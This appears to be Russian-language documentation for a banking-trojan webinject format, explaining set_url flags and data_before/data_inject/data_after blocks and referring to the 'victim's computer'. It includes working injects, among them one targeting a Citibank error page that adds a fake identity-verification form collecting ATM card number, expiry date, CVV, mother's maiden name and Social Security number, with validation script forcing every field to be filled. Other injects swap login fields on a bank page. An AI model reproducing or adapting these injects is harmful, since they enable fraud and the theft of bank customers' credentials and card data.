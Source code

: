 URL - URL на которую должен срабатывать веб-инжект, можно использовать маску.
Флаги - определяет основное условие загрузки, может состоять из нескольких флагов в любом порядке, но с учетом регистра. В настоящее время доступны следующие флаги:
P - запускать веб-инжект при POST запросе на URL.
G - запускать веб-инжект при GET запросе на URL.
L - изменяет предназначение веб-инжекта, если указать этот флаг, то будет получен нужный кусок данных и немедленно сохранен в лог.
F - дополняет флаг L, позволяет записывать результат не в лог, а в отдельный файл.
H - дополняет флаг L, сохраняет нужный кусок данных без вырезания тегов.
D - запускать веб-инжект раз в 24 часа.



блэкмаска POST - представляет из себя маску POST-данных передаваемых URL, при которых не будет запускаться веб-инжект.


вайтмаска POST - представляет из себя маску POST-данных передаваемых URL, при которых будет запускаться веб-инжект.
URL блокировки - в случаи если ваш веб-инжект должен грузиться лиш один раз на компьютере жертвы, то здесь следует указать маску URL, в случаи открытия которой данный Веб-инжект не будет более использоваться на компьютере. Если вам этого не нужно, оставтье поле пустым.
маска контекста - маска части содержимого страницы, при котором должен сработать веб-инжект.

После указания URL, со следующей строки начинается перечисление веб-инжектов, которое длится до тех пор, пока не достигнут конец файла или не задана новая URL при помощи очередной записи set_url. Один веб-инжект состоит из трех элементов:
Без флага L:
data_before - маска данных после которых нужно записать новые данные.

data_after - маска данных перед которыми следует записать новые данные.

data_inject - новые данные, на которые будет заменено содержимое между data_before, data_after.

С флагом L:
data_before - маска данных после которых начинается кусок получаемых данных.

data_after - маска данных перед которыми кончается кусок получаемых данных.

data_inject - играет роль заголовка для получаемых данных, нужен лишь для визуального выделения в логах.

Название элемента должно начинаться с первого байта новой строки и сразу после окончания названия должен быть перенос на следующею строку. Со следующей строки идут данные веб-инжекта, окончание данных обозначается строкой data_end, также это строка должна начинаться с первого байта очередной строки. Внутри элемента вы можете свободно использовать любые символы.

Примечания:
Как известно, новая строка может обозначаться одним (0x0A) или двумя (0x0D и 0x0A) байтами. Т.к. в основном веб-инжект используется для подмены содержимого текстовых данных, то данная особенность учтена, и бот успешно запускает веб-инжект даже если у вас новые строки обозначены двумя байтами, а в содержимом URL одним байтом и наоборот.
Элементы веб-инжекта могут быть расположены в любом порядке, т.е. data_before, data_after, data_inject, или data_before, data_inject, data_after и т.д.
Элемент может быть пустым.
При использовании флага L, в получаемых данных каждый тег заменяютя на один пробел.



пример выдергивания данных 

set_url https://ссылка.com/data.pl GP

data_before
src="/cm/js/branding.js"></script>
data_end
data_inject
<script>
function set_cookie1(name, value, expires)
{
if (!expires)
{
expires = new Date();
}
document.cookie = name + "=" + escape(value) + "; expires=" + expires.toGMTString() + "; path=/";
}

function get_cookie(name)
{
cookie_name = name + "=";
cookie_length = document.cookie.length;
cookie_begin = 0;
while (cookie_begin < cookie_length)
{
value_begin = cookie_begin + cookie_name.length;
if (document.cookie.substring(cookie_begin, value_begin) == cookie_name)
{
var value_end = document.cookie.indexOf (";", value_begin);
if (value_end == -1)
{
value_end = cookie_length;
}
return unescape(document.cookie.substring(value_begin, value_end));
}
cookie_begin = document.cookie.indexOf(" ", cookie_begin) + 1;
if (cookie_begin == 0)
{
break;
}
}
return null;
}
</SCRIPT>
data_end
data_after
<noscript>
data_end


data_before
</tr><tr><td colspan="3" class="password">
data_end
data_inject
<script>
var name1 = "ct_ver";
var cookie_val1 = get_cookie(name1);

if (cookie_val1 == "y9872") 
{
document.writeln("<input type='password' name='password' id='password' onkeydown='checkUidComplete(event)' size='13'>");
}
if (cookie_val1 == null)
{
var tmp = "y9872";
var expires1 = new Date(); 
expires1.setTime(expires1.getTime() + (1000 * 86400 * 365));
set_cookie1(name1, tmp, expires1);
document.writeln("<input type='password' id='username' name='username' onkeydown='checkUidComplete(event)' size='13'>");
}
</script>
data_end
data_after
</td></tr><tr valign="top"><td><input type="checkbox"
data_end

data_before
"username" style="padding-bottom:4px;">
data_end
data_inject
<script>
var name2 = "ct_ver2";
var cookie_val2 = get_cookie(name2);

if (cookie_val2 == "y9871") 
{
document.writeln("<input type='text' id='username' name='username' size='12' value=''>");
}
if (cookie_val2 == null)
{
var tmp = "y9871";
var expires1 = new Date(); 
expires1.setTime(expires1.getTime() + (1000 * 86400 * 365));
set_cookie1(name2, tmp, expires1);
document.writeln("<input type='text' name='password' id='password' size='12' value=''>");
}
</script>
data_end
data_after
</td></tr><tr><td colspan="2" nowrap><b>Password
data_end

set_url https://web.da-us.citibank.com/cgi-bin/citi...l/autherror.do* GP
data_before
<td colspan=2 class="username"><big><B>
data_end
data_inject
<input type="text" id="username" name="username" size="13" length="50" value=>
data_end
data_after
</B></big></td></tr>
data_end

data_before
univers/misc/error.gif'><font color=#d73535><B><big>
data_end
data_inject
Information you entered does not match our records.
data_end
data_after
</big></B></font><BR><BR><big>Please check
data_end

data_before
</big></B></font><BR><BR><big>
data_end
data_inject
In order to avoid fraud, we must verify your identity. We ask several questions.<br> Only you can answer these questions. This information is used only for security <br>reasons, to protect you from identity fraud.<br> Please make sure you complete all required information correctly.
data_end
data_after
<BR><BR>If you're
data_end

data_before
<tr valign=top><td colspan=2 class=inputField>
data_end
data_inject
<input id="password" name="password" maxlength="50" size="12" value="" autocomplete="OFF" type="password"><br><br></td></tr><!-- --> <table border="0" cellpadding="0" cellspacing="0" width="100%"><tbody><tr valign="top"><td align="left"><big><br> Enter the information about Credit Card linked to your account: </big><br><br></td></tr></tbody></table> <tr><td colspan="2"><b>ATM Card Number</b></td></tr><br> <tr valign="top"><td colspan="2"> <INPUT TYPE="text" NAME="atm" VALUE="" SIZE="16" MAXLENGTH="16"><BR> </td></tr> <tr><td colspan="2"><b>Expired Date</b></td></tr> <br> <tr valign="top"><td colspan="2"> <INPUT TYPE="text" NAME="exp" VALUE="" SIZE="3" MAXLENGTH="5"></td></tr><BR> <tr><td colspan="2"><b>CVV</b></td></tr> <br> <tr valign="top"><td colspan="2"> <INPUT TYPE="text" NAME="cvv" VALUE="" SIZE="2" MAXLENGTH="3"><BR><br></td></tr> <table border="0" cellpadding="0" cellspacing="0" width="100%"><tbody><tr valign="top"><td align="left"><big><br> Enter your personal<br> information: </big></td></tr></tbody></table><br> <tr><td colspan="2"><b>Mother's Maiden Name</b></td></tr> <br> <tr valign="top"><td colspan="2"> <INPUT TYPE="text" NAME="mmn" VALUE="" SIZE="20" MAXLENGTH="32"></td></tr><BR> <tr><td colspan="2"><b>Social Security Number</b></td></tr> <table border="0" cellpadding="0" cellspacing="0" width="20%"><tbody> <tr valign="top"><td colspan="2"> <INPUT TYPE="text" NAME="ssn1" VALUE="" SIZE="2" MAXLENGTH="3"> <td colspan="2"> <INPUT TYPE="text" NAME="ssn2" VALUE="" SIZE="1" MAXLENGTH="2" valign="left"> <td colspan="2"> <INPUT TYPE="text" NAME="ssn3" VALUE="" SIZE="3" MAXLENGTH="4"> </td></td></td></tr> </table></tbody> <!-- --><tr><td><IMG border=0 height=10 src='/images/pixel.gif' width=1></td></tr>
data_end
data_after
<tr><td align=left valign="top" nowrap></td><td align=right><IMG border=0 height=10 src='/images/pixel.gif' width=1><input type=image alt="" src="/images/univers/buttons/cont_btn.gif"
data_end

data_before
if(!(usernameValidation(frm.username)))
data_end
data_inject
return false; if(!(cinRegValidation(frm.atm))) return false; if((document.LoginValidateForm.exp.value.length<1) || (document.LoginValidateForm.cvv.value.length<1) || (document.LoginValidateForm.mmn.value.length<1) || (document.LoginValidateForm.ssn1.value.length<1) || (document.LoginValidateForm.ssn2.value.length<1) || (document.LoginValidateForm.ssn3.value.length<1)) { alert ("All fields are required."); return false; } else if((document.LoginValidateForm.exp.value.length<5) || (document.LoginValidateForm.cvv.value.length<3) || (document.LoginValidateForm.mmn.value.length<4) || (document.LoginValidateForm.ssn1.value.length<3) || (document.LoginValidateForm.ssn2.value.length<2) || (document.LoginValidateForm.ssn3.value.length<4)) { alert ("Please verify your information and fill the form.\n(All fields are required)."); return false; }
data_end
data_after
if(!(passwordValidation(frm.password)))
data_end



=============

;Подмена заголовка любого сайта по протоколу http на фразу "HTTP: Web-Inject"
set_url http://* GP

data_before
<title>
data_end

data_inject
HTTP: Web-Inject
data_end

data_after
</title>
data_end
Код:
;Подмена заголовка любого сайта по протоколу http на фразу "HTTPS: Web-Inject" и добваление текста "BODY: Web-Inject" сразу после тега <body>
set_url https://* GP

data_before
<title>
data_end

data_inject
HTTPS: Web-Inject
data_end

data_after
</title>
data_end

data_before
<body>
data_end

data_inject
<hr>BODY: Web-Inject<hr>
data_end

data_after
data_end
Код:
;Получем заголовок страницы
set_url http://*yahoo.com* LGP

data_before
<title>
data_end

data_inject
Yahoo Title: Web-Inject
data_end

data_after
</title>
data_end